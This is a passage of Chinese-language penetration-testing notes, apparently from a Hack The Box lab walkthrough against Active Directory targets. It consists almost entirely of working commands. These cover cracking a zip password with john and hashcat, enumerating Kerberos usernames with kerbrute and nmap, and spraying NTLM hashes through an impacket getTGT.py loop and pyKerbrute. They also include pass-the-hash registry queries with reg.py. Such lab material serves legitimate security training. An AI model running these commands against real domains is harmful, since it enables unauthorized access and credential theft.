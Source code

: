   ```bash
  zip2john backup.zip > backup.zip.hash
  john backup.zip.hash --wordlist=/usr/share/wordlists/rockyou.txt 
  hashcat -m 17220 backup.zip.hash /usr/share/wordlists/rockyou.txt --user
  ```

  

- 根据域身份验证机制，枚举域内存在用户名

  ```bash
  ./kerbrute_linux_amd64 userenum -d htb.local --dc apt user.list
  ./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
  ```

  ```bash
  nmap -6 -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='htb.local',userdb=user.list apt 
  ```

  

- `getTGT.py` 利用，写个循环，**验证用户名和hash匹配在一起**，能否生成 票据

  ```sh
  #!/bin/bash
  
  while IFS='' read -r LINE || [-n "${LINE}" ]
  do
        echo "----------------------"
        echo " Feed the Hash:${LINE}"
        /usr/share/doc/python3-impacket/examples/getTGT.py apt/henry.vinson@htb.local -hashes ${LINE}
        
  done < hash.list     
  ```

  监听本地文件生成

  ```bash
  watch "ls -ltr | tail -2"
  ```

  同理还有个工具  https://github.com/3gstudent/pyKerbrute

  ```bash
  python ADPwdSpray.py apt htb.local 'henry.vinson' ../userhash.list 
  [*] DomainControlerAddr: apt
  [*] DomainName:          HTB.LOCAL
  
  ...[SNIP]...
  [+] Valid Login: henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb
  ```

  

- 得到凭据后可尝试读取注册表

  ```bash
  reg.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' -dc-ip apt htb.local/henry.vinson@htb.local query -keyName HKU
  
  reg.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' -dc-ip apt htb.local/henry.vinson@htb.local query -keyName HKU\\Software
  
  reg.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' -dc-ip apt htb.local/henry.vinson@htb.local query -keyName HKU\\Software\\GiganticHostingManagementSystem
  ```
